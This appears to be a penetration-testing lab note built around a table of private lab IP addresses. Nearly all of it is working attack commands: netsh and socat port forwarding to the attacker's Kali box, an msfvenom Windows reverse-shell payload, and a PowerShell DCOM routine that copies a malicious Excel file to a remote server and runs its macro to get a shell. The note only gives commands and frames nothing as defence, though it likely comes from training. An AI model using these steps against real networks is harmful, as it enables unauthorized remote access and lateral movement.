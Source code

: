 | My Kali IP | Win10 | WinServ |
| ----------- | ----------- |  ----------- |
| 192.168.119.190 | 192.168.190.10 |  172.16.190.5 |

![[rlwrap]]

Win10:

Forward any traffic on Win10:4444 box to Kali:443:
```command prompt - target
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=192.168.190.10 connectport=443 connectaddress=192.168.119.190
```

Setting up firewall rule:
```command prompt - target
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.190.10 localport=4444 action=allow
```

Setting up socat to forward traffic from port 4444 to kali:443:
```command prompt - target
socat tcp-l:4444,fork,reuseaddr tcp:192.168.119.190:443
```

Generate reverse shell code to execute on the WinServ target:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.190.10 LPORT=4444 -f hta-psh
```

Execute malicious excel file on remote machine for reverse shell to trigger on Kali box.

```powershell - target
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.190.5"))

$LocalPath = "C:\Users\jeff_admin\Desktop\myexcel.xls"

$RemotePath = "\\172.16.190.5\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\172.16.190.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
```
